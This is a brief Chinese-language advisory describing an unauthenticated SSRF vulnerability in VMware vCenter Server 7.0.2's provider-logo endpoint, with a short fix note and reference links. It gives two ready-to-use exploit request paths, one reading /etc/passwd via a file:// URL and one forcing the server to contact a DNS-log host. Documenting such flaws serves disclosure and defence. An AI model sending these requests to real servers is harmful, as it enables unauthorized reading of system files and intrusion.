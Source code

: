 ### 一 漏洞描述
VMware vCenter Server 是美国威睿（VMware）公司的一套服务器和虚拟化管理软件。该软件提供了一个用于管理 VMware vSphere 环境的集中式平台，可自动实施和交付虚拟基础架构。
近日(2021.12.01)，监测到一则 VMware vCenter Server 组件存在 SSRF 漏洞的信息，暂未分配漏洞编号。
该漏洞是由于 h5-vcav-bootstrap-service 组件的 getProviderLogo 函数中未对 provider-logo 参数做校验，攻击者可利用该漏洞在未授权的情况下，构造恶意数据执行 SSRF 攻击，最终造成服务器敏感性信息泄露等危害。

影响范围:
VMware vCenter Server 7.0.2

### 二 漏洞利用
文件读取: ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=file:///etc/passwd
SSRF: ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=http://{dnslog}

### 三 漏洞修复
升级

> 参考链接
> https://bbs.huaweicloud.com/forum/forum.php?mod=viewthread&tid=172363
> https://www.geekby.site/2022/05/vcenter%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
> 2021.12.1 github poc: https://github.com/l0ggg/VMware_vCenter

